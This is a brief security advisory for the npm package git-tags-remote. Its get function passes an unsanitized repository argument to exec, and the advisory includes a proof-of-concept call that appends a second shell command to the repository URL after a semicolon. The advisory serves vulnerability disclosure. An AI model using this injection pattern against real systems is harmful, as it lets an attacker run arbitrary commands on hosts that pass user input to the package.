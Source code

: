 # Overview

`git-tags-remote` is a Get remote repository tags, this package is vulnerable to Command Injection. The package fails to sanitize the repository input and passes it directly to an `exec` call on the `get` function . This can allow attackers to execute arbitrary code in the system if the repository value passed to the function is user controlled.

# Proof of Concept

```
const gitTagsRemote = require('git-tags-remote');
gitTagsRemote.get('https://github.com/sh0ji/git-tags-remote.git; echo "Injection Success" > /tmp/command-injection.test') .then(tags => console.log(tags));
```
